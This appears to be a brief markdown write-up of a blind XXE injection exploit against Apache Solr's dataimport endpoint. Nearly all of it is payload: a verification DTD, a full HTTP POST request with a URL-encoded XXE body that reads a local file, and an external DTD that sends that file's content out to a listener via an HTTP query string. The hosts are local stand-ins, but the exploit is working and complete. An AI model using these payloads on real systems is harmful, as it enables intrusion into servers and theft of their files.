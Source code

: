 ### XXE injection

#### Blind XXE injection
1. just for verifying XXE.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://127.0.0.1:8000/xxe.dtd">
%remote;]>
<root/>
```

2. extract file content from target system
```http
POST /solr/new_core/dataimport HTTP/1.1
Host: cqq.com:8983
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 255

command=full-import&dataConfig=<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE any[
<!ENTITY %25 file SYSTEM "file:///Users/Shared/cccc">
<!ENTITY %25 remote SYSTEM "http://127.0.0.1:8000/xxe.dtd">
%25remote%3b
%25all%3b
]>
<root>%26send%3b</root>
```
The original xml content is as follows:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE any[
<!ENTITY % file SYSTEM "file:///Users/Shared/cccc">
<!ENTITY % remote SYSTEM "http://127.0.0.1:8000/xxe.dtd">
%remote;
%all;
]>
<root>&send;</root>
```
while the content of `/Users/Shared/cccc` is: `shadowsock5`.
while the content of `http://127.0.0.1:8000/xxe.dtd` is:
```xml
<!ENTITY % all "<!ENTITY send SYSTEM 'http://127.0.0.1:8888/?content=%file;'>">
```


#### Ref
http://ceye.io/payloads
https://blog.csdn.net/u011721501/article/details/43775691
